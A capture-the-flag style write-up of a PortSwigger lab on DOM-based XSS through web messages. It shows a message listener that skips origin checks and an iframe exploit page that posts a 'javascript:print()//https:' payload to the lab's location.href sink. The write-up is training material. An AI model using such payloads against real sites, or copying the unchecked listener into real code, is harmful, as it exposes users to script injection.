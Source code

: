 # DOM XSS using web messages and a JavaScript URL | Jan 14, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url), you'll learn: DOM XSS using web messages and a JavaScript URL! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114165638.png)

**View source page:**
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

In this web message, it's vulnerable to DOM-based XSS, as **it doesn't verify the origin of incoming messages correctly** in the event listener, properties and functions that are called by the event listener.

Also, we can see a sink (Dangerous function): **`location.href`. It allows us to redirect to a page.**

But before it do that, **it checks the message data contains `http:` or `https:`.**

Armed with above information, we can host a malicious HTML file that contains `<iframe>` element and use the `postMessage()` method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page:

```html
<html>
    <head>
        <title>DOM XSS using web messages and a JavaScript URL</title>
    </head>
    <body>
        <iframe src="https://0afe0030035eec8ac08d954300cc0015.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*');"></iframe>
    </body>
</html>
```

As the event listener does not verify the origin of the message, and the `postMessage()` method specifies the `targetOrigin` `"*"`, the event listener accepts the payload and passes it into the `location.href` sink.

The `postMessage()` method payload is to set the `location.href` sink to `javascript:print()`, and the `//` is to comment out the rest of the JavaScript code. Then, the `https:` is to pass the `indexOf()` check.

Let's host it on the exploit server, and test it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114171327.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114171335.png)

It worked! Let's deliver it to victim:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114171400.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114171404.png)

# What we've learned:

1. DOM XSS using web messages and a JavaScript URL